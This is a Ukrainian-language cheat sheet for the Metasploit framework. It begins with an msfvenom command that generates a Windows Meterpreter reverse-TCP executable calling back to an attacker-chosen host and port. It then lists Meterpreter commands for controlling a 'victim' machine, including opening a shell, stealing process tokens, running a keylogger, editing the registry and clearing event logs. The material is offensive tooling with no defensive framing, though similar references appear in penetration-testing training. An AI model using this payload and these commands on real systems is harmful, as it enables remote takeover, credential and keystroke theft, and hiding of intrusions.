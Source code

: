 ## Створення payload:

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -a x64 -o /home/kali/payload.exe

## Основні команди Meterpreter:

**?** — меню допомоги  
**background** — переносить поточний сеанс в фоновий режим.  
**bgkill** — завершує фоновий скрипт meterpreter.  
**bglist** — відображає список всіх запущених фонових скриптів.  
**bgrun** — запускає скрипт як фоновий потік.  
**channel**  — відображає активні канали.  
**close** — закриває канал.  
**exit** — завершує севнс роботи з meterpreter.  
**help** — меню довідки.  
**interact** — взаємодіє з каналом.  
**irb** — перейти в режим сценарію Ruby.  
**migrate** — переносить активний процес на указаний PID.  
**quit** — завершує сеанс meterpreter.  
**read** — читає дані з каналу.  
**run** — виконує створений після нього скрипт meterpreter.  
**use** — завантажує розширення meterpreter.  
**write** — записує дані в канал.  

## Команди файлової системи

**cat** — читання і виведення вмісту файлу.  
**cd** — перейти в папку.  
**del** — видалити файл.  
**download** — завантажити файл з системи на свій ПК.  
**edit** — редагувати файл за допомогою vim.  
**getlwd** — показати локальний каталог.  
**getwd** — показати робочий каталог.  
**lcd** — змінити локальний каталог.  
**lpwd** — відобразити шлях локальної директорії.  
**ls** — список файлів в поточному каталозі.  
**mkdir** — створити каталог.  
**pwd** — відобразити шлях кореневого каталогу до до поточного робочого каталогу.  
**rm** — видалити файл.  
**rmdir** — видалити каталог в жертви.  
**upload** — завантажити файл зі своєї системи на на поточну машину.  

## Мережеві команди Meterpreter:

**clearav** — очищуэ журнал подый на комп'ютері жертви.  
**execute** — виконує команду.  
**getpid** — отримує ідентифікатор поточного процесу (PID).  
**getprivs** — отримує максимально можливі привілегії.  
**getuid** — отримати користувача від якого запущений сервер.  
**kill** — завершити процес, позначений PID.  
**ps** — список запущених процесів.  
**reboot** — перезавантажує комп'ютер жертви.  
**reg** — взаємодіяти з реєстром жертви.  
**rev2self** — викликає RevertToSelf () на машині жертви.  
**shell** — відкриває командний рядок на машині жертви.  
**shutdown** — виключає комп'ютер жертви.  
**steal_token** — намгається викрасти токен вказаного (PID) процесу.  
**sysinfo** — отримує детальну інформацію про комп'ютер жертви, таку ​як ОС і ім'я комп'ютера.  

## Команди користувацького інтерфейсу:  
**enumdesktops** — список всіх доступних робочих столів.  
**getdesktop** —отримати поточний робочий стіл meterpreter.  
**idletime** — перевіряє, скільки часу система жертви була в простої.  
**keyscan_dump** — вивантажує змість програмного забезпечення келогеру.  
**keyscan_start** — запускає програмний кейлогер, коли він звязаний з процесом, таким як Word чи браузер.  
**keyscan_stop** — зупиняє програмний кейлогер.  
**screenshot** — робить знімок екрану робочого столу meterpreter.  
**set_desktop** — змінює робочий стіл meterpreter.  
**uictl** — дозволяє керувати деякими компонентами користувацького інтерфейсу.  



